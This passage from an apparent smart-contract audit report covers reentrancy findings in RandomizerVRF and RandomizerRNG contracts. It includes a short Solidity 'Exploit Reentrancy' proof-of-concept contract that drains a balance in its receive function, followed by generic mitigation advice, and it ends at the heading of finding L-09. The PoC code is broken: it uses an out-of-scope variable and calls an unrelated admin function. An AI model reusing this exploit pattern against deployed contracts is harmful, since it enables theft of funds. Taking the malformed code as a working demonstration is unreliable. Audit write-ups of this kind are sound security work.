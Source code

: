**Exploit Reentrancy**
```sol
// SPDX-License-Identifier: MIT

pragma solidity >=0.8.19;

import "./RandomizerVRF.sol";

contract tRandomizerVRF {

   RandomizerVRF public x1;

   constructor(RandomizerVRF _x1) {

      x1 = RandomizerVRF(_x1);

   }


   function testRenterS() public payable {

      x1.updateAdminContract(address(_x1));

   }

   receive() external payable {

      msg.sender.transfer(payable(address(_x1)).balance);

   }

   } 
```
## Tools Used
VS Code.
## Recommended Mitigation Steps
All functions that are not internal and are making a call should have a reentrancy guard added to them.
Checks-Effects-Interactions should be applied to the functions. 
Balance updates should be made at the beginning of the call.
The actual call should be made at the end of the function.
So that the balance is already updated first and reentrancy is not possible.
## [L-09] Reentrnacy in RandomizerRNG contract
## Impact
The reentrancy vulnerability uses the attack contract to call into the victim contract several times before the victim contract's balance updates.
Hence allowing the attacker to withdraw e.g. 2 ether when they only deposited 1 ether.
Which means double entry counting duplicate withdrawals for only one genuine withdrawal.
## Proof of Concept
